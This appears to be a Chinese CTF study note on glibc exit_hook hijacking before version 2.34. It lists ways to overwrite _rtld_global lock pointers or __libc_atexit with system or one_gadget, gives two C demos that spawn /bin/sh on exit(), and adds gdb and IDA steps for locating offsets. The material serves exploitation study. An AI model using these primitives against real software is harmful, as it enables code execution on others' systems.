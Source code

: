 # exit_hook劫持

`glibc-2.34`之前

## 四种方式

修改`_rtld_global._dl_rtld_lock_recursive`为`one_gadget`
修改`_rtld_global._dl_rtld_unlock_recursive`为`one_gadget`
修改`_rtld_global._dl_rtld_lock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`
修改`_rtld_global._dl_rtld_unlock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`

调用exit即可触发漏洞

## 示例

```C
// 修改`_rtld_global._dl_rtld_lock_recursive`为`system`和`_rtld_global._dl_load_lock`为`/bin/sh`
#include <stdio.h>
#include <stdlib.h>

char *binsh = "/bin/sh";

int main(void)
{
    /* 寻找地址 */

    // p/x &system-$libc
    char *libc_base = ((char *)(&system) - 0x52290);

    // p/x (void*)&_rtld_global._dl_rtld_lock_recursive-$libc
    // p/x (void*)&_rtld_global._dl_rtld_unlock_recursive-$libc
    size_t *rtld_lock_default_lock_recursive = (size_t *)(libc_base + 0x228f68);

    // p (void*)&_rtld_global._dl_load_lock-$libc
    size_t *dl_load_lock = (size_t *)(libc_base + 0x228968);

    /* 修改地址 */
        
    // 设置 rtld_lock_default_lock_recursive 为 system
    *rtld_lock_default_lock_recursive = (size_t)&system;

    // 设置 _dl_load_lock 为 /bin/sh
    *dl_load_lock = *(size_t*)binsh;

    exit(1);
    return 0;
}
```

## exit_hook+

通过`exit()->__run_exit_handlers()`中的`HOOK`如下:

```C
  if (run_list_atexit)
    RUN_HOOK (__libc_atexit, ());
```

但是后面的版本好像都用不了，可以通过`gdb`动调查看`__libc_atexit`是否可写

```C
#include <stdio.h>
#include <stdlib.h>

int main(void)
{
    // p/x &system-$libc
    char *libc_base = ((char *)(&system) - 0x55410);
    // IDA进入exit函数后，查找_exit的交叉引用中含有exit的__run_exit_handlers的地方，找到函数指针的地址
    size_t* hook = libc_base + 0x1ED608;
    // 设置函数指针的地址为one_gadget的地址
    *hook = (size_t)(libc_base + 0xe6aee);
    // 触发
    exit(1);
    return 0;
}
```

### 寻找__libc_atexit

`IDA`进入`exit`函数后，查找`_exit`的交叉引用中含有`exit`的`__run_exit_handlers`的地方，找到函数指针的地址
